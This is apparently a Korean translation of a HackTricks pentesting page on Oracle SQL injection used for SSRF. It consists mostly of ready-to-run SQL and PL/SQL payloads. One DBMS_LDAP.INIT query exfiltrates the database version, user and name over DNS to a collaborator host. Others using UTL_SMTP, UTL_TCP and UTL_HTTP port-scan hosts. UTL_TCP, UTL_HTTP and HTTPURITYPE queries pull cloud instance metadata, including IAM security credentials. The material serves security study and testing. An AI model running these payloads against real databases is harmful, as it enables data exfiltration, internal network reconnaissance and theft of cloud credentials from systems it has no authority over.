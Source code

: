 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**이 게시물은 [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)에서 삭제된 게시물의 웨이백 머신 복사본을 제공합니다.**

## SSRF

Oracle을 사용하여 Out of Band HTTP 및 DNS 요청을 수행하는 것은 잘 문서화되어 있지만, SQL 데이터를 추출하는 수단으로도 사용됩니다. 우리는 항상 이러한 기술/기능을 수정하여 다른 SSRF/XSPA를 수행할 수 있습니다.

Oracle 설치는 정말 고통스러울 수 있으며, 특히 명령을 시도하기 위해 빠른 인스턴스를 설정하려는 경우 더욱 그렇습니다. [Appsecco](https://appsecco.com)의 친구이자 동료인 [Abhisek Datta](https://github.com/abhisek)는 저에게 [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c)를 알려주었고, 이를 통해 t2.large AWS Ubuntu 머신과 Docker에서 인스턴스를 설정할 수 있었습니다.

저는 이 블로그 게시물의 과정에서 Oracle을 네이티브 설치로 완전한 네트워크 액세스를 가진 것처럼 모방할 수 있도록 `--network="host"` 플래그와 함께 도커 명령을 실행했습니다.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### URL 또는 호스트/포트 번호 사양을 지원하는 Oracle 패키지 <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

호스트 및 포트 사양을 지원하는 패키지와 기능을 찾기 위해 [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html)에서 Google 검색을 실행했습니다. 구체적으로,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
검색 결과는 다음과 같습니다 (모두 외부 네트워크를 수행하는 데 사용할 수 있는 것은 아님)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

이 간단한 검색은 `DBMS_LDAP`와 같은 패키지를 건너뛰는데, 이는 호스트 이름과 포트 번호를 전달할 수 있게 해줍니다. [문서 페이지](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)는 단순히 [다른 위치](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)로 안내합니다. 따라서 제가 놓쳤을 수 있는 외부 요청을 만들기 위해 악용될 수 있는 다른 Oracle 패키지가 있을 수 있습니다.

어쨌든, 우리가 발견하고 나열한 패키지 중 일부를 살펴보겠습니다.

**DBMS\_LDAP.INIT**

`DBMS_LDAP` 패키지는 LDAP 서버에서 데이터에 접근할 수 있게 해줍니다. `init()` 함수는 LDAP 서버와의 세션을 초기화하며, 호스트 이름과 포트 번호를 인수로 받습니다.

이 함수는 DNS를 통해 데이터 유출을 보여주는 문서화된 예가 있습니다, 아래와 같이.
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
그러나 이 함수가 호스트 이름과 포트 번호를 인수로 받아들이기 때문에, 이를 사용하여 포트 스캐너처럼 작동할 수 있습니다.

다음은 몇 가지 예입니다.
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
`ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.`는 포트가 닫혀 있음을 나타내지만 세션 값은 포트가 열려 있음을 가리킵니다.

**UTL\_SMTP**

`UTL_SMTP` 패키지는 SMTP를 통해 이메일을 전송하기 위해 설계되었습니다. [Oracle 문서 사이트에 제공된 예제는 이 패키지를 사용하여 이메일을 전송하는 방법을 보여줍니다](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). 그러나 우리에게 흥미로운 점은 호스트 및 포트 사양을 제공할 수 있는 능력입니다.

아래에는 2초의 타임아웃을 가진 `UTL_SMTP.OPEN_CONNECTION` 함수의 간단한 예가 나와 있습니다.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: transfer timeout`는 포트가 열려 있지만 SMTP 연결이 설정되지 않았음을 나타내고, `ORA-29278: SMTP transient error: 421 Service not available`는 포트가 닫혀 있음을 나타냅니다.

**UTL\_TCP**

`UTL_TCP` 패키지와 그 절차 및 함수는 [서비스와의 TCP/IP 기반 통신을 허용합니다](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). 특정 서비스에 맞게 프로그래밍된 경우, 이 패키지는 네트워크로의 접근 방법이 되거나 모든 TCP/IP 연결의 모든 측면을 제어할 수 있으므로 전체 서버 측 요청을 수행할 수 있습니다.

[Oracle 문서 사이트의 예제는 이 패키지를 사용하여 웹 페이지를 가져오기 위해 원시 TCP 연결을 만드는 방법을 보여줍니다](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). 우리는 이를 조금 더 단순화하여 메타데이터 인스턴스나 임의의 TCP/IP 서비스에 요청을 만드는 데 사용할 수 있습니다.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
흥미롭게도, 원시 TCP 요청을 작성할 수 있는 능력 덕분에 이 패키지는 모든 클라우드 제공자의 인스턴스 메타데이터 서비스에 쿼리하는 데에도 사용될 수 있습니다. 메서드 유형과 추가 헤더는 모두 TCP 요청 내에서 전달될 수 있습니다.

**UTL\_HTTP 및 웹 요청**

아마도 모든 Out of Band Oracle SQL Injection 튜토리얼에서 가장 일반적이고 널리 문서화된 기술은 [`UTL_HTTP` 패키지](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070)입니다. 이 패키지는 문서에서 다음과 같이 정의됩니다 - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
당신은 또한 다음과 같은 쿼리를 사용하여 기본적인 포트 스캐닝을 수행할 수 있습니다.
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` 또는 `TNS:operation timed out`는 TCP 포트가 닫혀 있다는 신호이며, `ORA-29263: HTTP protocol error` 또는 데이터는 포트가 열려 있다는 신호입니다.

내가 과거에 사용했던 또 다른 패키지는 [`HTTPURITYPE` Oracle 추상 타입의 `GETCLOB()` 메서드](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705)로, URL과 상호작용할 수 있게 해주며 HTTP 프로토콜을 지원합니다. `GETCLOB()` 메서드는 URL에서 GET 응답을 [CLOB 데이터 타입으로](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) 가져오는 데 사용됩니다.[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
